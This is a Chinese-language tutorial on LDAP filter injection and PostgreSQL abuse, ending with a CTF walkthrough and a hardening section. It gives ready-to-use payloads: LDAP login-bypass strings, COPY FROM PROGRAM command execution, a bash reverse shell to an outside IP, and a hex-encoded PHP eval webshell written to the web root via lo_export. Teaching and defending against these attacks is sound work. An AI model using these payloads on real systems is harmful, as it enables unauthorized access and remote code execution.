

# LDAP目录服务注入与PostgreSQL高阶特性利用

---

## 0. 基础前置知识扫盲：从公司通信录到数据库内核

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


在关系型数据库的世界里，MySQL 占据了半壁江山，但现代大型企业与前沿架构中，还有两种极其重要、且攻击手法截然不同的数据服务：
1. **LDAP（轻量级目录访问协议）**：企业内部的**“超级中央员工大管家”**；
2. **PostgreSQL**：功能最强大、被现代云原生与高端框架（Supabase、Django、Rails）广泛采用的开源关系型数据库。

### 1. 通俗生活类比：LDAP 到底是什么？
- **传统关系型数据库（MySQL）**：像**财务记账本**。适合频繁修改、高并发交易（买东西扣库存）。
- **LDAP 目录服务（OpenLDAP / Active Directory）**：像**全集团十万名员工的统一电话簿与电子工牌系统**！
  - **读多写少**：员工入职后，名字、工号、邮箱、密码基本很少改动，但每天登录各个内部系统（邮箱、VPN、Jira、GitLab、Wi-Fi）时都要被高频读取核对；
  - **前缀表达式（波兰表示法）**：
    普通人算算术写成：`A AND B`；
    而 LDAP 喜欢把符号写在最前面：`(&(A)(B))`！
    - `(& (cn=张三) (dept=研发部))` 表示：“找既叫张三、又在研发部的员工”。
  - **漏洞爆发时刻（LDAP 注入）**：
    如果开发人员把前端输入的用户名直接拼接到括号里，黑客通过插入括号 `)` 和逻辑或 `|`，就能强行篡改电话簿的筛选逻辑，**直接实现无密码登录全公司任意账号**！



---

## 1. LDAP 过滤器注入（LDAP Filter Injection）核心机制与利用

### 1.1 LDAP 搜索过滤器核心语法结构

在 RFC 4515 规范中，LDAP 过滤器的基本构建块由括号包裹，且**运算符全部前置**：
- **与操作（AND）**：`(&(条件1)(条件2))`（必须同时满足）；
- **或操作（OR）**：`(|(条件1)(条件2))`（满足其一即可）；
- **非操作（NOT）**：`(!(条件1))`（取反）；
- **通配符（Wildcard）**：`*`（匹配任意零个或多个字符，相当于 SQL 的 `%`）。

### 1.2 经典认证绕过攻击载荷（Payload 构造逻辑）

假设某企业统一身份认证接口的代码拼接逻辑如下：
```text
filter = "(&(uid=" + user_input + ")(userPassword=" + pass_input + "))";
```

#### 攻击构造方案一：OR 逻辑闭合截断
攻击者在用户名输入框中输入：
`admin)(|(userPassword=*`，密码输入框随意输入 `anything`。
- **服务端拼接后的最终执行语句**：
  ```text
  (&(uid=admin)(|(userPassword=*)(userPassword=anything)))
  ```
- **逻辑拆解剖析**：
  整个表达式由两部分 AND 组成：
  1. `uid=admin`（匹配管理员用户）；
  2. `(|(userPassword=*)(userPassword=anything))`（密码是任意字符，或者密码是 anything）。
  由于任何用户的密码必然存在（即必然匹配 `*`），后半截条件恒为真！**攻击者无需输入正确密码，直接以 admin 身份登录成功！**

#### 攻击构造方案二：NULL 截断与无密码登录
某些老旧 LDAP 客户端支持利用 `%00`（空字节截断）：
输入 `admin)%00`，直接丢弃后面的 `userPassword` 校验，实现秒级跳过！

---

### 1.3 盲注数据外带（Blind LDAP Injection）

如果系统登录成功后只返回一个简单的“用户存在”，如何通过盲注把管理员的手机号、密保邮箱或密码哈希逐字带出？

#### 利用通配符 `*` 逐位二分爆破：
构造注入载荷：
`admin)(description=a*`
- 若系统返回“用户存在”，说明属性 `description` 以字母 `a` 开头；
- 若系统返回“用户不存在”，则测试 `admin)(description=b*`；
- 确定第一位后，继续推进测试第二位：`admin)(description=ba*`；
- 编写自动化 Python 脚本，短时间内即可把 LDAP 树中存储的任意隐藏属性完整读取！

---

## 2. PostgreSQL 数据库高危特性与 RCE 纵深攻防

当 Web 应用的后端数据库是 **PostgreSQL** 时，如果我们在注入测试中拿到了数据库的管理员权限（`postgres` 超级用户），可以利用其原生自带的系统级功能直接**晋升为操作系统级 RCE**！

### 2.1 终极大杀器：`COPY ... FROM PROGRAM`（远程代码执行）

从 PostgreSQL 9.3 版本开始，官方为了方便数据库与外部系统做数据导入导出，新增了一项功能：**允许直接运行操作系统命令，并将命令的标准输出直接导入到数据库表格中**（曾被分配 CVE-2019-9193）！

#### 攻击执行命令四步曲（需要 superuser 权限）：

```sql
-- 步骤 1：创建一个临时的单列文本表，用来存放命令执行的回显结果
CREATE TABLE temp_cmd_result(cmd_output text);

-- 步骤 2：核心大招！利用 FROM PROGRAM 执行任意操作系统命令 (以运行 postgres 服务的系统用户执行)
COPY temp_cmd_result FROM PROGRAM 'id; whoami; uname -a';

-- 步骤 3：直接查询该表，读取命令回显!
SELECT * FROM temp_cmd_result;

-- 步骤 4：清理作案现场，删除临时数据表
DROP TABLE IF EXISTS temp_cmd_result;
```

#### 反弹 Shell 单行载荷：
在 SQL 注入点或已连接的 SQL 控制台中直接发起反弹连接：
```sql
COPY temp_cmd_result FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/1.1.1.1/8888 0>&1"';
```

---

### 2.2 大对象写入任意文件：`lo_export` 与 WebShell 植入

如果数据库版本低于 9.3，或者 `COPY FROM PROGRAM` 被安全基线禁用，可以通过 PostgreSQL 强大的 **大对象（Large Objects, LO）** 接口将二进制代码写盘：

```sql
-- 1. 创建一个新的大对象并获取其 OID (对象标识符)
SELECT lo_create(1337);

-- 2. 将恶意 Webshell 或 .so 动态库的分块数据写入该大对象中
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (1337, 0, decode('3c3f70687020406576616c28245f504f53545b27636d64275d293b203f3e', 'hex'));

-- 3. 将大对象导出为磁盘物理文件 (写入网站根目录 Webshell)
SELECT lo_export(1337, '/var/www/html/shell.php');

-- 4. 清理大对象数据
SELECT lo_unlink(1337);
```

---

## 3. CTF 综合挑战演练：从登录框 LDAP 注入到 PostgreSQL RCE

### 赛题背景拓扑：
- 前端入口：某大学学生成绩管理系统，使用 LDAP 验证学号密码；
- 后台数据库：PostgreSQL 12.0；
- 目标：获取服务器 `/flag`。

### 进攻实战链条：

#### 阶段 1：利用 LDAP 过滤器注入绕过认证
在登录界面输入：
- 用户名：`admin)(|(mail=*`
- 密码：`dummy`
成功绕过身份认证，以教务处管理员权限进入后台系统！

#### 阶段 2：在后台报表查询处发现 SQL 注入
在后台“按课程编号导出成绩”接口中，抓包发现：
`GET /export?course_id=101`
输入单引号报错：`pg_query(): Query failed: syntax error at or near "'"`，确认后端为 PostgreSQL！

#### 阶段 3：堆叠注入调用 `COPY FROM PROGRAM`
利用分号 `;` 执行堆叠注入，触发代码执行读取 Flag：
```http
GET /export?course_id=101;CREATE+TABLE+flag_tab(res+text);COPY+flag_tab+FROM+PROGRAM+'cat+/flag';SELECT+1;-- HTTP/1.1
Host: ctf.university.local
```
随后直接在当前页面或报错信息中查询：
`GET /export?course_id=-1+UNION+SELECT+res+FROM+flag_tab--`
页面清清楚楚地显示出最终 Flag：
`flag{LDAP_Byp4ss_And_PGSQL_C0py_Pr0gr4m_RCE_2026}`！

---

## 4. 蓝队企业级纵深防御与安全加固指南

### 1. LDAP 防御规范：RFC 4515 严格字符转义
- 坚决杜绝直接拼接字符串构造过滤器；
- 在将不可信输入拼入 LDAP 查询前，**必须对所有特殊保留字符进行严格转义**（或使用参数化 LDAP 查询 API）：
  - `*` 转义为 `\2a`
  - `(` 转义为 `\28`
  - `)` 转义为 `\29`
  - `\` 转义为 `\5c`
  - `\0` 转义为 `\00`

### 2. PostgreSQL 数据库加固基线：
- **剥离 Web 应用连接账号的超级用户权限**：
  - Web 应用连接数据库的账号绝不能是 `postgres`；必须创建专用受限业务账号（`CREATE USER web_app WITH PASSWORD '...'`），**坚决禁止授予 `SUPERUSER` 权限和 `pg_execute_server_program` 角色**！
- **文件系统权限锁死**：
  - 严格限制 PostgreSQL 运行用户的系统写入权限，确保其无法向 Web 根目录（`/var/www/html`）写入任何文件，杜绝 `lo_export` 落地 Webshell。
